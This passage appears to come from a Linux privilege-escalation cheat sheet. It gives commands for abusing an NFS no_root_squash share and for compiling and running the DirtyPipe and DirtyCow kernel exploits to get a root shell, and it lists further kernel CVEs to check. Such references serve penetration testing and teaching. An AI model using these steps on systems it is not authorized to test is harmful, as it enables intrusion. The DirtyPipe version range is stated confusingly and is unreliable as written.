 ```bash
showmount -e target_ip   # Check NFS shares
cat /etc/exports   # Check export configuration on target
```

Exploit no_root_squash:
```bash
sudo mount -t nfs target_ip:/share /mnt
# Create and compile setuid binary on mounted share
```

## 6. Kernel Exploits

### DirtyPipe Exploit (CVE-2022-0847)
Affects Linux kernel 5.8 through 5.16.11, 5.15.25, and 5.10.102
```bash
# Check kernel version
uname -r

# Compile the exploit
gcc -o dirtypipe dirtypipe.c

# Execute to get root shell
./dirtypipe
```

### DirtyCow Exploit (CVE-2016-5195)
Affects Linux kernel versions before 4.8.3

```bash
# Check kernel version
uname -r

# Common exploit variants
gcc -pthread dirty.c -o dirty -lcrypt
gcc -pthread cowroot.c -o cowroot
```

### Other Kernel Exploits to Check

```bash
# Check kernel version first
uname -a

# Common kernel exploits
# - CVE-2021-4034 (PwnKit) - Polkit vulnerability
# - CVE-2021-3156 (Baron Samedit) - Sudo vulnerability
# - CVE-2019-13272 - PTRACE_TRACEME
# - CVE-2017-16995 - eBPF exploit
```

## 7. Container Escapes
